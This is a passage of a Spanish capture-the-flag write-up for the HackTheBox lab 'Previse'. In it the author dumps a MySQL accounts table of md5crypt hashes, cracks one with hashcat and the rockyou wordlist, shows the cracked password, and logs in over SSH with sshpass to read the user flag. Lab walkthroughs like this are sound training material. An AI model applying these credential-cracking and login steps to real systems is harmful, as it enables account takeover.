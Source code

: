 En la tabla files no veo nada interesante. En cambio en la tabla accounts;
```
mysql> describe accounts;
+------------+--------------+------+-----+-------------------+----------------+
| Field      | Type         | Null | Key | Default           | Extra          |
+------------+--------------+------+-----+-------------------+----------------+
| id         | int(11)      | NO   | PRI | NULL              | auto_increment |
| username   | varchar(50)  | NO   | UNI | NULL              |                |
| password   | varchar(255) | NO   |     | NULL              |                |
| created_at | datetime     | YES  |     | CURRENT_TIMESTAMP |                |
+------------+--------------+------+-----+-------------------+----------------+
4 rows in set (0.00 sec)

mysql> select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | guise    | $1$🧂llol$n/fM3e.vxjCMyyttBW0kn1 | 2023-04-06 07:13:38 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)
``` 
Parecen contraseñas en formato hash. La de guise es la mía. Intentaré crackear la de m4lwhere. Ese hash tiene un emoji, un dibujo de un salero. Si lo copio al cuadro de búsqueda del navegador me sale el dibujo, además sale info de que es un hash MD5.

```
❯ hashcat --example-hashes | grep  'MD5'

TYPE: MD5
TYPE: HMAC-MD5 (key = $pass)
TYPE: HMAC-MD5 (key = $salt)
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
TYPE: Apache $apr1$ MD5, md5apr1, MD5 (APR)
```
El cuarto tipo pone "\$1$" justo como empieza nuestro hash. Quiero ver cual es el modo de ese tipo.
```
❯ hashcat --example-hashes | grep "TYPE: md5crypt" -B 2

MODE: 500
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
```
La opción -B muestra dos lineas hacia arriba. Es el modo 500.  
Crackeamos el hash que he guardado en el fichero hash.hash:
```
> hashcat -m 500 hash.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
Al cabo de un buen rato, mi ordenador no es muy potente, descifra el hash.

![Password]({{ 'assets/img/writeups/Previse/password.png' | relative_url }}){: .center-image }

La contraseña es: ilovecody112235!

Probamos a cambiar de usuario;
```
www-data@previse:/home/m4lwhere$ su m4lware
```
No nos sirve. Realmente es la contraseña de acceso del usuario m4lwhere por ssh.
```
❯ sshpass -p 'ilovecody112235!' ssh m4lwhere@10.10.11.104

m4lwhere@previse:~$ whoami
m4lwhere
```
¡¡¡¡Obtenemos la primera flag!!!!!
```
m4lwhere@previse:~$ cat user.txt
```